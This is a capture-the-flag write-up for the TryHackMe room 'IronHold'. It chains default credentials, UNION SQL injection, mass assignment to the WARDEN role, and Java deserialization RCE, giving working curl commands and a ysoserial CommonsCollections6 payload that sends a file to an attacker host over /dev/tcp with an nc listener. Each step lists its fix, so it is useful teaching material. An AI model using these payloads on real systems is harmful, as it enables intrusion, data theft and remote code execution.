

# IronHold - Whitebox Chain to Java Deserialization RCE

> **Platform:** TryHackMe · **Room:** [IronHold](https://tryhackme.com/room/ironhold) · **Category:** Web + Linux · **Difficulty:** Hard
> **Type:** whitebox pentest. The full source and a live instance are provided; you read the code as an attacker and chain the bugs.
> **Result:** default creds, SQLi, mass assignment to WARDEN, then RCE via insecure Java deserialization.
> **Note:** publication-safe copy. Flag values and seeded credentials are redacted; the method is shown in full.

## The chain

Default creds to SQL injection to mass assignment (role escalation to WARDEN) to insecure deserialization to RCE.



| # | Flag | Vulnerability |
|---|------|---------------|
| 1 | Officer dashboard | Seeded credentials in the code |
| 2 | Hidden staff record | SQL injection (UNION) |
| 3 | Warden master code | Mass assignment / role escalation |
| 4 | RCE | Insecure Java deserialization |

## Enumeration

- "Ironhold Correctional" app, Spring Boot 2.7.18 (Java 11), at `http://TARGET:8080`.
- Leaked repo plus a live instance.
- Trap: there is a Flask `app.py` that is a decoy. The real service is the Java app (`com.ironhold.controller`).
- `WardenInterceptor` enforces the WARDEN role on `/admin/*`.

## Flag 1 - Default creds

`DataSeeder.java` seeds credentials. Officer: `j.reyes / <redacted>`.

```bash
U=http://TARGET:8080
curl -s -c cj -d 'username=j.reyes&password=<redacted>' "$U/login" -o /dev/null -w "login->%{http_code}\n"
curl -s -b cj "$U/dashboard" -o dash.html; grep -aoE "THM\{[^}]+\}" dash.html
```

`login->302` saves the cookie; the flag is in a dashboard notice.
**Flag:** `THM{REDACTED}` - **Root cause:** default creds in the source. **Fix:** managed secrets, no credentials in code.

## Flag 2 - SQL injection (UNION)

`InmateController`: `GET /inmates/search?q=` concatenates `q` into SQL (`JdbcTemplate searchJdbcTemplate`), unparameterized. The flag lives in `case_files`, a table no view displays.

```bash
curl -s -G -b cj "$U/inmates/search" \
  --data-urlencode "q=' UNION SELECT id, summary, status FROM case_files-- -" | grep -aoE "THM\{[^}]+\}"
```

The second visible column renders `summary`.
**Flag:** `THM{REDACTED}` - **Root cause:** string concatenation in SQL. **Fix:** parameterized queries.

## Flag 3 - Mass assignment

`POST /profile/update` (`ProfileController`) binds the `role` field, which the form should never accept, so I self-promote to WARDEN.

```bash
curl -s -b cj -d 'fullName=J Reyes&email=j.reyes@ironhold.example&role=WARDEN' "$U/profile/update" -o /dev/null
curl -s -b cj "$U/admin/control" | grep -aoE "THM\{[^}]+\}"
```

`/admin/control` shows the "Facility Master Override Code".
**Flag:** `THM{REDACTED}` - **Root cause:** mass assignment of a sensitive field. **Fix:** explicit DTOs, don't bind `role`.

## Flag 4 - RCE (insecure deserialization)

`ImportExportController`: `POST /admin/import` runs `Base64.decode()` then `new ObjectInputStream(...).readObject()` on your input, with no filter. The `pom.xml` ships `commons-collections 3.2.1`, so the `CommonsCollections6` gadget from ysoserial applies.

Generate the payload (Java 11 needs `--add-opens`; the command is wrapped in base64):

```bash
LHOST=<your_vpn_ip>; LPORT=4445
INNER='{ cat /opt/ironhold/flag.txt; } > /dev/tcp/'"$LHOST"'/'"$LPORT"
B64=$(echo -n "$INNER" | base64 -w0); CMD="bash -c {echo,$B64}|{base64,-d}|bash"
java --add-opens=java.base/java.util=ALL-UNNAMED --add-opens=java.base/java.lang=ALL-UNNAMED \
  --add-opens=java.base/java.lang.reflect=ALL-UNNAMED --add-opens=java.base/java.net=ALL-UNNAMED \
  --add-opens=java.base/java.util.concurrent=ALL-UNNAMED \
  --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
  -jar ysoserial.jar CommonsCollections6 "$CMD" > payload.bin
base64 -w0 payload.bin > payload.b64
```

Fire it (re-login and re-escalate to WARDEN first, since `/admin/import` is behind the interceptor; listener `nc -lvnp 4445`):

```bash
curl -s -c cj -d 'username=j.reyes&password=<redacted>' "$U/login" -o /dev/null
curl -s -b cj -d 'fullName=J Reyes&email=j.reyes@ironhold.example&role=WARDEN' "$U/profile/update" -o /dev/null
curl -s -b cj -X POST "$U/admin/import" -H "Content-Type: text/plain" --data-binary @payload.b64
```

`200 / Batch accepted: HashSet` means it executed. Flag in `/opt/ironhold/flag.txt`.
**Flag:** `THM{REDACTED}` - **Root cause:** deserializing untrusted input. **Fix:** don't use native serialization on user input, use `ObjectInputFilter` (allowlist), remove the vulnerable `commons-collections`.

## What I learned

Pure whitebox: you read each controller as an attacker, name the vuln class, and chain. The leaked code gives away default creds, hand-built SQL, over-bound fields, and `readObject()` on input. The chain (access to read to escalation to RCE) is worth more than any single bug.

## References

- ysoserial (CommonsCollections6 gadget)
- OWASP: SQL Injection, Mass Assignment, Insecure Deserialization
